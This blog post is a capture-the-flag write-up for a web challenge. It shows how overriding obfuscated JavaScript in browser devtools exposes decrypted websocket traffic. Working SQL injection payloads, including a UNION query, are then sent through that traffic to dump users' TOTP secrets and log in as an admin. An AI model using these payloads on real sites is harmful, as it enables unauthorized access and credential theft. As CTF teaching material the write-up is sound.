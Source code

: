 ```yaml
---
title: "Overriding JS to Perform SQL Injection (Housecat RTCP CTF Writeup: Blog from the future)"
date: 2020-04-26T19:59:05+05:30
draft: false
categories:
 - CTF Writeups
tags:
 - web-ctf
 - housecat-rtcp-ctf
---
```


The TL;DR of this challenge was SQL injection and overriding javascript (to skip the `encrypt`/`decrypt` functions).

## Challenge

**Challenge Name:** Blog from the future

**Challenge Description:**

> My friend Bob likes sockets so much, he made his own blog to talk about them. Can you check it out and make sure that it's secure like he assured me it is?
[Link](http://challs.houseplant.riceteacatpanda.wtf:30003)

## Solution

### JS Overriding

Rule #1 of web CTFs: ALWAYS check robots.txt first! This time I found:
```
User-Agent: *
Disallow: /admin
```

And in [/admin](http://challs.houseplant.riceteacatpanda.wtf:30003/admin) there is a comment saying you need to use TOTP (Time Based OTP. Who does not use a TOTP for 2-factor authentication in 2020?)

Okay, so back to the home page. It was using websockets to fetch blog posts. On Inspect-Elementing/View-Sourcing you find [main.js](http://challs.houseplant.riceteacatpanda.wtf:30003/js/main.js) which is obfuscated. I just used the default Prettifier in Chrome (the `{}` button in Sources tab) to deobfuscate it.

According to the Network tab, the packets were encrypted:
![Encrypted Data](/images/encrypted-network-houseplant.png)

I was going to rewrite the `encrypt` and `decrypt` functions in Python but that would've wasted a lot of time. So I just decided to override JS instead.

You have to enable overriding support first in Google Chrome (no idea about Firefox, I don't use it), and [here is the official guide](https://developers.google.com/web/updates/2018/01/devtools#overrides).

Then, you need to right click on the tab (`main.js` in this case) and you'll see `Save for overrides`. Press that, and you're ready!

While overriding, `console.log()` is your friend. Use it everywhere and see what's happening. I saw a function that decrypted the received data and I added my `console.log()` there:
``` javascript
const e = JSON.parse(i.utils.utf8.fromBytes(i.padding.pkcs7.strip(u.decrypt(t))));
console.log(e);
```
![Console Output](/images/console-output-hprtcpctf.png)

Cool! Now it printed everything! Now, I had to modify the sent requests. Just below the above line, there was:
``` javascript
if ("success" === e) {
    const t = parseInt(window.location.hash.substr(1));
    if (!isNaN(t))
        return r.send(o.encode(["getPost", t]));
    r.send(o.encode("listPosts"))
    }
}
```

And I found just what I wanted: a method to send data. In this case, it was getting the post ID from the URL, and sending that to get the post. Time for SQL Injection!

### SQL Injection

To ensure I could do a  SQL Injection attack, I made it:
``` javascript
r.send(o.encode(["getPost", "1 OR 5=5;--"]));
```

And yes, it worked! I got all the posts on the site. Output of `console.log`:
``` javascript
(3) ["post", "1 OR 2=2;--", Array(2)]
0: "post"
1: "1 OR 2=2;--"
2: Array(2)
    0: {id: 1, title: "Welcome to the future!", author: 1, text: "I finally upgraded my blog to use the tech of the …to be truly able to call my blog "futuristic". :/", postDate: 1580857200000, …}
    1: {id: 2, title: "A review of American sockets", author: 1, text: "They're pretty cool, in my opinion.", postDate: 1580947200000, …}
    __proto__: Array(0)
length: 3
__proto__: Array(0)
```

Explanation: I assumed the SQL statement was something like `SELECT * FROM posts WHERE id=<ID HERE>`.
So, my input made it: `SELECT * FROM posts WHERE id=1 OR 5=5;--`. Select everything from table posts where ID is 1 or 5=5 (which evaluates to True), aka fetch all posts. `;--` skips whatever is at the end, and terminates the query.

After that, I used `UNION` to join another `SELECT` query to get user information. In `UNION`, you have to make sure the number of columns match and hence the `1,1` thing:
``` javascript
r.send(o.encode(["getPost", "1 OR 2=2 UNION SELECT *,1,1,0 from users;--"]));
```

I didn't find `users` table or `*,1,1,0` on first attempt. It took like 20-30 attempts to get it right.

First I did `UNION SELECT 1,1,1,1,1,1` but that didn't work cause the last variable `hidden` was `1`, and it didn't return that. `UNION SELECT 1,1,1,1,1,0` returned what was expected.
Then I tried to get table names from `information_schema.tables` but that wasn't working. I tried to use some "common" table names and `users` worked. Then I did `UNION SELECT *,0 from users;--`, and kept adding `,1` till it worked. (Remember, `UNION` means same number of columns)

Here was the output:
``` javascript
(3) ["post", "1 OR 2=2 UNION SELECT *,1,1,0 from users;--", Array(4)]
0: "post"
1: "1 OR 2=2 UNION SELECT *,1,1,0 from users;--"
2: Array(4)
    0: {id: 1, title: "Welcome to the future!", author: 1, text: "I finally upgraded my blog to use the tech of the …to be truly able to call my blog "futuristic". :/", postDate: 1580857200000, …}
    1: {id: 1, title: "alice", author: "J5YD4O2BIZYEMVJYIY3F24S3GQ2VC3ZTKJQVW5JFJUYHKODXORQQ", text: 1, postDate: 1, …}
    2: {id: 2, title: "A review of American sockets", author: 1, text: "They're pretty cool, in my opinion.", postDate: 1580947200000, …}
    3: {id: 2, title: "bob", author: "IE3V2RR4HRLUEOBDLVCWCQTYF5LT6RTCONNDMULGGJGS4STUMYWA", text: 1, postDate: 1, …}
    length: 4
    __proto__: Array(0)
length: 3
__proto__: Array(0)
```

I took the TOTP secret key for `bob` and plugged it into a [TOTP Generator](https://totp.danhersam.com/).

On the admin page, I Inspect-Elemented, and uncommented the TOTP input field and deleted password field. After entering the username (`bob`) and the generated TOTP, I was able to log in and get the flag.

Flag is: `rtcp{WebSock3t5_4r3_SQLi_vu1n3r4b1e_t00_bacfe0}`. GGWP.

## Conclusion

It greatly helps SQL injection if you can create a local SQL table on your end and try creating SQL statements that work.

And, it's sometimes far more efficient to override javascript than to manually simulate requests (using `curl`/`python`) like many beginners do.

Ask me in the comments for any issues! And thanks jammy for the challenge!